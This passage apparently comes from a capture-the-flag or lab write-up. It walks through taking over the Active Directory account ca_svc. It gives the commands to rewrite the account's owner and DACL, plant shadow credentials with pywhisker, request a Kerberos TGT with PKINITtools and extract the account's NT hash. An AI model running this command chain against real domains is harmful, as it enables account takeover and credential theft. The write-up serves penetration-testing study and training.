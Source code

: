 1.  **Modify ownership so** `Ryan` **has full control of** `ca_svc`:
    ```shell
    impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' $domain/$user:$pass
    ```

    -   {{< figure src="/ox-hugo/2025-01-14-071358_.png" >}}

5.  **Grant** `ryan` **full privileges over the user** `ca_svc`:
    ```shell
    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' $domain/$user:$pass
    ```

    -   {{< figure src="/ox-hugo/2025-01-14-071326_.png" >}}

6.  **Add shadow credentials to the** `ca_svc` **account &amp; export** `.PEM`
    ```shell
    python3 pywhisker.py -d $domain -u $user -p $pass --target "CA_SVC" --action "add" --filename CACert --export PEM
    ```

    -   {{< figure src="/ox-hugo/2025-01-14-071341_.png" >}}
        -   Ignore the capitlization of `CA_SVC` it doesn't matter.
    -   +Deep Dive+: I have a deep dive on shadow credentials available here if you want to the how behind this attack vector:
        -   <https://bloodstiller.com/articles/shadowcredentialsattack/>

7.  **Requesting a TGT for** `ca_svc` **with PKINITtools getgtgkinit**
    -   Now we perform the same process again to be able to extract their hash by using the `.pem` files we have retrieved to export a `.ccache` we can authenticate with.
        ```shell
           python3 /home/kali/windowsTools/PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem $domain/ca_svc ca_svc.ccache
        ```
    -   {{< figure src="/ox-hugo/2025-01-14-071932_.png" >}}

8.  **Next we will load the** `.ccache` **into our** `KRB5CCNAME` **variable as we will need this for next step**:
    ```shell
    export KRB5CCNAME=./ca_svc.ccache
    ```

9.  **Requesting the** `ca_svc` **user hash with PKINITtools** `getnthash`:
    -   Extract the NTHash for the `ca_svc` user:
        ```shell
           python3 /home/kali/windowsTools/PKINITtools/getnthash.py -key 431c[SNIP]6aee9c22ff3391d9 $domain/CA_SVC
        ```
10. {{< figure src="/ox-hugo/2025-01-14-072605_.png" >}}
    -   We now have the `ca_svc` users NT hash.

11. **Verify the hash is valid**:
    -   {{< figure src="/ox-hugo/2025-01-14-072827_.png" >}}
    -   We now own the `ca_svc` user.

